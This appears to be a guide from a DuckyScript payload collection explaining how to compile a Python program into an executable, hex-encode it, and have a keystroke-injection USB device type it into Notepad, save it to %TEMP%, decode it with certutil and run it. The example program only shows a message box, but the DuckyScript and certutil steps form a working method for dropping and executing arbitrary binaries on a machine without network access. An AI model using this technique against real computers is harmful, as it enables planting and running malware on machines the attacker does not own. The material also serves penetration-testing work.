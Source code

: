 # Install And Run Any Arbitrary Executable - No Internet And Root Needed

Through this guide you will be able to create executable programs that can be installed via DuckyScript in such a way as to avoid using the Internet altogether. This type of installation can lead to serious damage to machines so do it only if you are fully aware and sure of what you are doing, in this example you will already find the code in hexadecimal but if you want to be sure recompile the executable following the following guide.

**Category**: Execution

# Guide to Creating an Executable Program using Python

## Introduction

This guide provides detailed instructions on how to use Python to create an executable program, generate hexadecimal code, and automate the execution of the application trough DuckyScript. Practical example in assets directory.

## Creating the Python Program

To begin, create a Python program that performs the desired functionality. You can use any programming language of your choice, but for this guide, we'll be using Python.

```python
import ctypes

ctypes.windll.user32.MessageBoxW(None, "Hello Hak5!", 'Info', 0x10 | 0x1)
```

## Creating the Executable using PyInstaller

Once the Python program is ready, we can use PyInstaller to create an executable file. PyInstaller converts the Python program into a standalone executable that can be run on any compatible system without requiring Python to be installed.

Install PyInstaller using the following command:

```powershell
pip install pyinstaller
```

To create the executable, run the following command in the terminal:

```powershell
pyinstaller --onefile full/path/to/the/file/example.py
```

Replace `example.py` with the filename of your Python script. The `--onefile` flag ensures that the output is a single executable file. Remember that the executable file can be found within the path `dist/example.exe`.

## Generating Hexadecimal Code

Next, we'll generate the hexadecimal code from the executable file. This step is necessary if you intend to automate the execution of the program.

To generate the `hexadecimal` code, you can use various methods or libraries. In this case I decided to create another program in Python capable of doing this conversion, the partial code is as follows but you can find the entire file in the assets folder.

```python
# Rest of the code...
with open(filename, 'rb') as file:
    binary_data = file.read()
    hex_code = binascii.hexlify(binary_data).decode()
# ...
```

## Creating a DuckyScript to Automate Execution

To create the payload in DuckyScript you simply add the hexadecimal code inside a STRING command immediately after opening the notepad.

```duckyscript
DEFINE #HEX_CODE <hexadecimal_code>

DELAY 500
GUI r
DELAY 500
STRING notepad.exe
ENTER
DELAY 500
STRING #HEX_CODE

DELAY 2000
ALT F
DELAY 1000
STRING S
DELAY 1000
ALTSTRING "%TEMP%\script.hex"
```

Replace `<hexadecimal_code>` with the actual hexadecimal code generated in the previous step. I used a combo ALT F and STRING S for save the file using `"%TEMP%\script.hex"` that save it in a `TEMP` directory

## Decoding Hexadecimal Code and Executing the Program
Now, we need to decode the hexadecimal code and execute the program. We can use the `certutil` command again to accomplish this.

Save the DuckyScript file as `script.hex` and run the following command in the Command Prompt:

```powershell
certutil -f -decodeHex "%TEMP%\script.hex" "%TEMP%\script.exe"
```

Replace `script.exe` with the desired output filename for the decoded program.

Finally, run the executable on the computer, or any other compatible device, to open start execution of the program.

These are the steps required to create an executable program with Python, generate the hexadecimal code, and automate its execution. Feel free to modify the instructions to suit your specific needs or programming language preferences.

Happy Hacking!
